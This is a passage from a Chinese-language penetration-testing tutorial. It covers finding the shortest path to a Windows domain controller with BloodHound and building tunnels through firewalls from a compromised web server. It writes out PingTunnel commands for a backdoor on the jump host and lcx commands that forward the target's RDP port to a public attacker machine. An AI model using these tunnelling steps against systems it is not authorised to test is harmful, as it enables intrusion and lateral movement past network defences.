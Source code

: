 该工具最有用也是最常用的一个功能就是提供攻击域控的最短路径，可以帮助我们更快地攻下域控服务器。


<Image alt="Drawing 14.png" src="https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEXSANSPOAAEqJIowHsQ844.png"/> 
  
图 15 查找域管理员的最短路径

关于 Bloodhound 的安装和使用，更多信息可参考 [BloodHound 官方使用指南](https://www.cnblogs.com/backlion/p/10643132.html)。

### 通信隧道建设

为进一步的内网渗透，通常会建立一个通信隧道，一方面便于与无法直边的内网机器交互，一方面为了绕过防火墙端口屏蔽的安全限制。

你可以先用以下命令来判断是否允许访问外网，利用不同协议来判断会更全面一些：

* ping：基于 ICMP 协议

* curl：基于 HTTP 协议

* netcat：基于 TCP 协议

* nslookup：基于 DNS 协议

看哪些通信协议可以出网的，就可以尝试利用它来建立起内网通信隧道，下面介绍一些常用的通信隧道建设方法。

#### 1.PingTunnel

[PingTunnel](http://freshmeat.sourceforge.net/projects/ptunnel/) 是一款基于 ICMP 协议的通信隧道工具。

ICMP 经常是被忽略的防火墙忽略的通信协议，所以有时可以通过它绕过防火墙的限制；另外还有一个更大好处是，通过 PingTunnel 可以间接访问到内网服务器。比如攻击者 A 攻下服务器 B，服务器 B 跟内网服务器 C 连通，但 A 无法直连 C，这时通过建立起 ICMP 隧道即可解决此问题。

它的使用方法如下：

* 先在跳板机（一般取开放 Web 的服务器，即最早被我们拿到 webshell 权限的服务器）上运行以下命令开启后门。

```java
ptunnel -x {连接密码}
```

* 再在攻击者机器上运行以下命令去连接。

```java
ptunnel -p {跳板机IP} -lp {本地监听端口} -da {目标IP} -dp {目标机器端口} -x {连接密码}
```

#### 2.lcx 端口转发

lcx 是一款常用的轻便的端口转发工具，它是基于 Socket 实现的，常用于转发数据到防火墙许可的服务器或端口上，其使用方法如下：

```java
＃将本机端口 111 的通信数据转发到本机端口 222
lcx.exe -listen 111 222
＃将目标机器端口3389的通信数据转发到公网机器端口4444
lcx.exe -slave {公网IP} 4444 127.0.0.1 3389
＃访问本地端口111即访问目标IP的3389端口
lcx.exe -tran 111 {目标IP} 3389
```

#### 3.PowerCat
